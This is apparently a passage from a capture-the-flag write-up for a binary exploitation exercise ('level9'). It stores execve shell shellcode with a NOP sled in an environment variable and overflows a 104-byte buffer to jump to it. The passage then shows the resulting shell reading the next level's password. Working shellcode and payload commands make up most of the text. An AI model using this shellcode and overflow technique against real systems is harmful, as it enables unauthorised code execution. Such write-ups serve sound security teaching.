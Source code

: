 Like the `level7` `edx` is again executed on the stack, we will exploit this with an environment variable with our shellcode in :
```bash
export EXPLOIT=$(python -c "print '\x90' * 300 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
```

We found the buffer overflow was 104 bytes, the first address `0xbffff804` represents `EXPLOIT` location, we add a padding and we finally place `0x0804a00c` which be stored in `EDX` and will redirect to `EXPLOIT` shellcode :
```bash
./level9 $(python -c "print '\x04\xf8\xff\xbf' + 'A' * 104 + '\x0c\xa0\x04\x08'")
$ whoami
bonus0
$ cd .. && cat bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
